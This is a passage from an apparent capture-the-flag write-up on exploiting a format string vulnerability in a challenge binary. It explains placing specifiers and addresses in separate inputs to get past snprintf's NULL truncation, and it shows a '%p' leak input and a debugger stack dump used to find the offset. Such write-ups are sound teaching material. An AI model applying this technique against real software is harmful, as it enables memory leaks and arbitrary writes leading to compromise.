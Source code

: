 Now that we know that we can trigger a format string attack, we should find the correct offset to allow the format specifier to read back a value provided by us. Essentially, we want to provide a set of addresses, and then format specifiers to dereference the addresses we've provide and read from / write to them. In a classic format string attack, both the addresses and the specifiers are provided in the format string together, and sent to `printf` as one string. However, since our addresses will contain `0x00` bytes, and since we must pass through `snprintf` in order to enable the format string vulnerability in `printf`, the naive approach won't suffice: `snprintf` will cut off anything after the first NULL byte it reaches, and the string passed to `snprintf` won't contain all of our payload. So, in our case, we will need to make sure that `printf` gets the format specifiers, but their offsets point to the original `A` or `B` which can contain as many NULL bytes as we want. In practice, we will provide the format specifiers in `A` and the addresses in `B`.

We start by running the program in the debugger, and setting a breakpoint right before the `printf`. We then provide the following input:

```
Welcome to Fermat\'s Last Theorem as a service
A: 1_%p.%p.%p.%p.%p.%p.%p.%p.%p
B: 1_ABCDEFGH
```

In `A`, we are leaking a few values to help us get oriented. In `B`, we are providing a marker to help us find the correct offset. We run and hit the breakpoint, then dump the stack:

```
gef>  stack 100
0x00007fffffffe550│+0x0000: 0x0000000000000000   ← $rsp
0x00007fffffffe558│+0x0008: 0x0000000000000000
0x00007fffffffe560│+0x0010: 0x0000000000000000
0x00007fffffffe568│+0x0018: 0x0000000100000001
0x00007fffffffe570│+0x0020: "1_%p.%p.%p.%p.%p.%p.%p.%p.%p"
0x00007fffffffe578│+0x0028: "%p.%p.%p.%p.%p.%p.%p"
0x00007fffffffe580│+0x0030: ".%p.%p.%p.%p"
0x00007fffffffe588│+0x0038: 0x0000000070252e70 ("p.%p"?)
0x00007fffffffe590│+0x0040: 0x0000000000000001
0x00007fffffffe598│+0x0048: 0x0000255499f1c4be
0x00007fffffffe5a0│+0x0050: 0x0000255499eea3a8
0x00007fffffffe5a8│+0x0058: 0x00007ffff7ffe180  →  0x0000000000000000
0x00007fffffffe5b0│+0x0060: 0x00007ffff7ffe180  →  0x0000000000000000
0x00007fffffffe5b8│+0x0068: 0x00007ffff7fe96b8  →  <_dl_unload_cache+40> mov QWORD PTR [rip+0x14a45], 0x0        # 0x7ffff7ffe108 <cache>
0x00007fffffffe5c0│+0x0070: 0x00007fffffffe860  →  0x0000000000400ad0  →  <__libc_csu_init+0> push r15
0x00007fffffffe5c8│+0x0078: 0x00007ffff7fd6b1f  →  <dl_main+9791> lea rsp, [rbp-0x28]
0x00007fffffffe5d0│+0x0080: 0x0000000000000000
0x00007fffffffe5d8│+0x0088: 0x0000000000000000
0x00007fffffffe5e0│+0x0090: 0x0000000000000000
0x00007fffffffe5e8│+0x0098: 0x0000000000000000
0x00007fffffffe5f0│+0x00a0: 0x00007ffff7ca8740  →  0x00007ffff7ca8740  →  [loop detected]
0x00007fffffffe5f8│+0x00a8: 0x00007ffff7ffe080  →  0x0000000000000001
0x00007fffffffe600│+0x00b0: 0x0000000000000000
0x00007fffffffe608│+0x00b8: 0x00007fffffffea01  →  0x2400007fffffffee
0x00007fffffffe610│+0x00c0: 0x00007ffff7ffe701  →  0x2000000000000000
0x00007fffffffe618│+0x00c8: 0x00007ffff7ffd9e8  →  0x00007ffff7fd2000  →  0x00010102464c457f
0x00007fffffffe620│+0x00d0: 0x00007fffffffe648  →  0x00007ffff7fd0218  →  0x000b001200000036 ("6"?)
0x00007fffffffe628│+0x00d8: 0x0000255499eea3a8
0x00007fffffffe630│+0x00e0: 0x0000000000000000
0x00007fffffffe638│+0x00e8: 0x0000000000000000
0x00007fffffffe640│+0x00f0: 0x0000000000000000
0x00007fffffffe648│+0x00f8: 0x00007ffff7fd0218  →  0x000b001200000036 ("6"?)
0x00007fffffffe650│+0x0100: 0x0000002000000000
0x00007fffffffe658│+0x0108: 0x0000000000000000
0x00007fffffffe660│+0x0110: 0x0000000000000000
0x00007fffffffe668│+0x0118: 0x0000000000000000
0x00007fffffffe670│+0x0120: "1_ABCDEFGH"         ← $r10
0x00007fffffffe678│+0x0128: 0x0000000103004847 ("GH"?)
```